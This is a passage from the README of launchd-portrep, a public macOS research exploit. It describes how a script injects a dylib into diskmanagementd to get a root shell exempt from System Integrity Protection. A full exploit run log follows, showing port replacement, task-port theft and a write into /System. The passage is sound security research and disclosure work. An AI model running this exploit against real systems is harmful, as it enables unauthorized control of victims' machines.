 `launchd-portrep-rootless.sh` is even more interesting: it presents a shell where rootless
restrictions on the filesystem have been disabled. It does this by spawning diskmanagementd, which
has the `com.apple.rootless.install.heritable` entitlement, and then injecting a dylib into
diskmanagementd that causes it to spawn a shell with stdin and stdout bound to named pipes. As the
name of the entitlement suggests, the exemptions from SIP granted by
`com.apple.rootless.install.heritable` will be passed down to the child processes, meaning that the
shell and all commands you run in it are essentially exempt from the SIP filesystem protections.

	$ bash ./launchd-portrep-rootless.sh
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0xe7b (index 194) after 60 tries
	[+] Sysdiagnose has PID 1145
	[+] Found sysdiagnose task port 0x1747b
	[+] Command exited with status: 0
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0x13d7b (index 199) after 61 tries
	[+] Sysdiagnose has PID 1162
	[+] Found sysdiagnose task port 0xbe47
	[+] Got task port 0xa07 for PID 1153
	[+] Successfully loaded "/Users/bazad/Developer/GitHub/launchd-portrep/rootless-sh.dylib" in process 1153
	bash: no job control in this shell
	bash-3.2# csrutil status
	System Integrity Protection status: enabled.
	bash-3.2# ls -laO /System
	total 0
	drwxr-xr-x@   4 root  wheel  restricted  128 Jul 25 19:08 .
	drwxr-xr-x   31 root  wheel  sunlnk      992 Jul 25 12:20 ..
	-rw-r--r--    1 root  wheel  restricted    0 Oct  6  2017 .localized
	drwxr-xr-x  102 root  wheel  restricted 3264 Jun 12 11:47 Library
	bash-3.2# touch /System/exploit-success
	bash-3.2# ls -laO /System
	total 0
	drwxr-xr-x@   5 root  wheel  restricted  160 Jul 25 19:19 .
	drwxr-xr-x   31 root  wheel  sunlnk      992 Jul 25 12:20 ..
	-rw-r--r--    1 root  wheel  restricted    0 Oct  6  2017 .localized
	drwxr-xr-x  102 root  wheel  restricted 3264 Jun 12 11:47 Library
	-rw-r--r--    1 root  wheel  restricted    0 Jul 25 19:19 exploit-success
	bash-3.2# exit

launchd-portrep has been tested on macOS 10.13.5 17F77.


License
---------------------------------------------------------------------------------------------------

The launchd-portrep code is released under the MIT license.


---------------------------------------------------------------------------------------------------
Brandon Azad



## Get the content

```
git clone https://github.com/bazad/launchd-portrep
cd launchd-portrep
```

{% embed url="https://github.com/bazad/launchd-portrep" %}

<figure><img src="https://avatars.githubusercontent.com/u/3111637?v=4" alt=""><figcaption><p>bazad</p></figcaption></figure>


[CVE-2016-7637]: https://bugs.chromium.org/p/project-zero/issues/detail?id=959
[threadexec]: https://github.com/bazad/threadexec